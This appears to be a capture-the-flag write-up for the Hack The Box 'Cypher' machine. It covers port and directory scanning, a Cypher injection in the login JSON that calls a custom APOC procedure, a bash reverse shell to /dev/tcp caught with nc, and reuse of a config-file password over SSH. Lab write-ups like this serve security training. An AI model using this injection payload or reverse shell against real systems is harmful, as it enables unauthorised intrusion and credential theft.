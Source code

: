 # Cypher
HTB-Cypher

└─# nmap -sS 10.10.11.57

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

└─# nano /etc/hosts
10.10.11.57 cypher.htb

└─# dirsearch -u "http://cypher.htb" -t 50

[11:35:00] Starting:                                                                                                
[11:35:10] 200 -    5KB - /about                                            
[11:35:10] 200 -    5KB - /about.html                                       
[11:35:25] 307 -    0B  - /api  ->  /api/docs                               
[11:35:25] 404 -   22B  - /api-docs
[11:35:25] 404 -   22B  - /api.log
[11:35:25] 404 -   22B  - /api.py
[11:35:25] 404 -   22B  - /api-doc
[11:35:25] 404 -   22B  - /api/__swagger__/
[11:35:25] 404 -   22B  - /api.php                                          
[11:35:25] 404 -   22B  - /api/2/explore/                                   
[11:35:25] 307 -    0B  - /api/  ->  http://cypher.htb/api/api
[11:35:25] 404 -   22B  - /api/_swagger_/
[11:35:25] 404 -   22B  - /api/apidocs
[11:35:25] 404 -   22B  - /api/api
[11:35:25] 404 -   22B  - /api/api-docs
[11:35:25] 404 -   22B  - /api/2/issue/createmeta
[11:35:25] 404 -   22B  - /api/application.wadl
[11:35:25] 404 -   22B  - /api/cask/graphql
[11:35:25] 404 -   22B  - /api/batch
[11:35:25] 404 -   22B  - /api/config
[11:35:25] 404 -   22B  - /api/apidocs/swagger.json
[11:35:25] 404 -   22B  - /api/docs/
[11:35:25] 404 -   22B  - /api/error_log
[11:35:25] 404 -   22B  - /api/jsonws/invoke                                
[11:35:25] 404 -   22B  - /api/login.json
[11:35:25] 404 -   22B  - /api/package_search/v4/documentation
[11:35:25] 404 -   22B  - /api/proxy
[11:35:25] 404 -   22B  - /api/spec/swagger.json                            
[11:35:25] 404 -   22B  - /api/swagger                                      
[11:35:25] 404 -   22B  - /api/snapshots
[11:35:25] 404 -   22B  - /api/swagger.yaml
[11:35:25] 404 -   22B  - /api/swagger.json
[11:35:25] 404 -   22B  - /api/swagger/ui/index
[11:35:25] 404 -   22B  - /api/swagger/swagger
[11:35:25] 404 -   22B  - /api/swagger.yml
[11:35:25] 404 -   22B  - /api/docs
[11:35:25] 404 -   22B  - /api/profile
[11:35:25] 404 -   22B  - /api/v1/swagger.json
[11:35:25] 404 -   22B  - /api/jsonws
[11:35:25] 404 -   22B  - /api/v1/                                          
[11:35:25] 404 -   22B  - /api/v2
[11:35:25] 404 -   22B  - /api/timelion/run
[11:35:25] 404 -   22B  - /api/v1
[11:35:25] 404 -   22B  - /api/v1/swagger.yaml
[11:35:25] 404 -   22B  - /api/v2/
[11:35:25] 404 -   22B  - /api/v2/swagger.json
[11:35:25] 404 -   22B  - /api/v2/swagger.yaml
[11:35:25] 404 -   22B  - /api/v2/helpdesk/discover
[11:35:25] 404 -   22B  - /api/v3
[11:35:25] 404 -   22B  - /api/whoami
[11:35:25] 404 -   22B  - /apidoc
[11:35:25] 404 -   22B  - /api/v4
[11:35:25] 404 -   22B  - /api/version
[11:35:25] 404 -   22B  - /apis
[11:35:25] 404 -   22B  - /apiserver-aggregator-ca.cert
[11:35:25] 404 -   22B  - /apibuild.pyc
[11:35:25] 404 -   22B  - /apiserver-aggregator.key
[11:35:25] 404 -   22B  - /apiserver-client.crt
[11:35:25] 404 -   22B  - /apiserver-key.pem
[11:35:25] 404 -   22B  - /api/vendor/phpunit/phpunit/phpunit
[11:35:25] 404 -   22B  - /apiserver-aggregator.cert
[11:35:25] 404 -   22B  - /apidocs
[11:35:37] 404 -   22B  - /demo.aspx                                        
[11:35:37] 307 -    0B  - /demo/  ->  http://cypher.htb/api/demo            
[11:35:37] 307 -    0B  - /demo  ->  /login                                 
[11:35:37] 404 -   22B  - /demo.php                                         
[11:35:37] 404 -   22B  - /demo.js
[11:35:37] 404 -   22B  - /demos/
[11:35:37] 404 -   22B  - /demo/ojspext/events/globals.jsa                  
[11:35:37] 404 -   22B  - /demo.jsp                                         
[11:35:37] 404 -   22B  - /demo/sql/index.jsp                               
[11:35:37] 404 -   22B  - /demoadmin                                        
[11:35:53] 200 -    4KB - /login                                            
[11:35:53] 200 -    4KB - /login.html                                       
[11:36:29] 301 -  178B  - /testing  ->  http://cypher.htb/testing/ 

Find http://cypher.htb/testing/ 

Go to http://cypher.htb/testing/

Find custom-apoc-extension-1.0-SNAPSHOT.jar 

Extract .jar and find Neo4j Database

Find lot of Neo4j exploit database and Cypher Injection

Open Burpsuite

Try
{
    "username": "admin'",
    "password": "123"
}

HTTP/1.1 400 Bad Request
Server: nginx/1.24.0 (Ubuntu)
Date: Mon, 31 Mar 2025 10:37:13 GMT
Content-Length: 3457
Connection: keep-alive

.
.
.
 {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 60 (offset: 59))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash"
                                                            ^}

After long long reseach I try this injection I try user and not admin and push in the injection the RCE :

{
    "username": "user' return h.value as a union CALL custom.getUrlStatusCode(\"http://cypher.htb; bash -c 'bash -i >& /dev/tcp/10.10.X.X/4444 0>&1'\") YIELD statusCode AS a RETURN a;//",
    "password": "123"
}

And Go it !

└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.X.X] from (UNKNOWN) [10.10.11.57] XXXXX
blablablabla
neo4j@cypher:/$ 

Let's go now, research little flag user.txt

neo4j@cypher:/$ ls
ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib64
lib.usr-is-merged
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
srv
sys
tmp
usr
var

Go home

neo4j@cypher:/$ cd /home
cd /home
neo4j@cypher:/home$ ls
ls
graphasm
neo4j@cypher:/home$ cd graphasm
cd graphasm
neo4j@cypher:/home/graphasm$ ls
ls
bbot_preset.yml
user.txt
neo4j@cypher:/home/graphasm$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

hmm ok this is medium machine you know haha
but ..

neo4j@cypher:/home/graphasm$ ls -la                  
ls -la
total 36
drwxr-xr-x 4 graphasm graphasm 4096 Feb 17 12:40 .
drwxr-xr-x 3 root     root     4096 Oct  8 17:58 ..
lrwxrwxrwx 1 root     root        9 Oct  8 18:06 .bash_history -> /dev/null
-rw-r--r-- 1 graphasm graphasm  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 graphasm graphasm 3771 Mar 31  2024 .bashrc
-rw-r--r-- 1 graphasm graphasm  156 Feb 14 12:35 bbot_preset.yml
drwx------ 2 graphasm graphasm 4096 Oct  8 17:58 .cache
-rw-r--r-- 1 graphasm graphasm  807 Mar 31  2024 .profile
drwx------ 2 graphasm graphasm 4096 Oct  8 17:58 .ssh
-rw-r----- 1 root     graphasm   33 Mar 31 04:09 user.txt

neo4j@cypher:/home/graphasm$ cat bbot_preset.yml
cat bbot_preset.yml
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.xxxxxxxxxxxxx

Got it password ! 

Go to ssh connect from graphasm

└─# ssh graphasm@10.10.11.57
put password neo4j

.
.
And 
let'sgo
graphasm@cypher:~$ ls
bbot_preset.yml  user.txt
graphasm@cypher:~$ cat user.txt 
XXXXXXXXXXXXXXXXXXXXXXXXXXX


